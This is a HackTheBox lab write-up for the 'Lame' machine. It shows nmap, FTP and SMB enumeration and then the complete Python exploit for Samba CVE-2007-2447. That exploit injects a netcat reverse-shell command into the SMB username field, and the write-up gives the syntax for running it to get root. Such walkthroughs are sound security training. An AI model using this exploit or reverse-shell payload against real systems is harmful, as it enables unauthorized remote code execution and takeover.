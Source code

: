 # Lame - HackTheBox
Notes from Lame 10.10.10.3 HTB

## Enumeration
### Nmap
```sh
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.25
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h08m25s, deviation: 2h49m45s, median: 8m23s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-06-16T21:01:35-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

### FTP
```sh
>>> ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:onejump): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> exit
?Invalid command
ftp> quit
221 Goodbye.
```
FTP allows anonymous login but there is nothing in there.

### Smbmap
```sh
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                Status: Authenticated
	Disk                                                    Permissions     Comment
	----                                                    -----------     -------
	print$                                                  NO ACCESS       Printer Drivers
	tmp                                                     READ, WRITE     oh noes!
	opt                                                     NO ACCESS
	IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))

```

#### Contents of tmp.
```sh
smb: \> ls
  .                                   D        0  Mon Jun 21 19:48:13 2021
  ..                                 DR        0  Sat Oct 31 02:33:58 2020
  .ICE-unix                          DH        0  Mon Jun 21 19:36:57 2021
  vmware-root                        DR        0  Mon Jun 21 19:37:27 2021
  .X11-unix                          DH        0  Mon Jun 21 19:37:23 2021
  .X0-lock                           HR       11  Mon Jun 21 19:37:23 2021
  5563.jsvc_up                        R        0  Mon Jun 21 19:38:00 2021
  vgauthsvclog.txt.0                  R     1600  Mon Jun 21 19:36:55 2021

                7282168 blocks of size 1024. 5386560 blocks available
smb: \>
```

We have access to the "tmp" share but there was nothing usefull in there either.

### Vulnerable samba version
![](images/Pasted%20image%2020210621194445.png)
This version os samba appears to be vulnerable to [CVE 2007-2447.](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/)
## Exploit
Avoiding the metasploit module that exist for this vuln, I found the following PoC in python. [exploit.py](https://github.com/amriunix/CVE-2007-2447/blob/master/usermap_script.py)

### Exploit code
```py
#!/usr/bin/python
# -*- coding: utf-8 -*-

# From : https://github.com/amriunix/cve-2007-2447
# case study : https://amriunix.com/post/cve-2007-2447-samba-usermap-script/

import sys
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
        payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
        username = "/=`nohup " + payload + "`"
        conn = SMBConnection(username, "", "", "")
        try:
            conn.connect(rhost, int(rport), timeout=1)
        except:
            print("[+] Payload was sent - check netcat !")

if __name__ == '__main__':
    print("[*] CVE-2007-2447 - Samba usermap script")
    if len(sys.argv) != 5:
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
    else:
        print("[+] Connecting !")
        rhost = sys.argv[1]
        rport = sys.argv[2]
        lhost = sys.argv[3]
        lport = sys.argv[4]
        exploit(rhost, rport, lhost, lport)
```

## Flags
The syntax to run the exploit is pretty straight forward, "python <file.py> <RHOST> <RPORT> <LHOST> <LPORT>", set up a nc listener and ready to go, root access.
	
![](images/Pasted%20image%2020210621200345.png)

Box rooted.
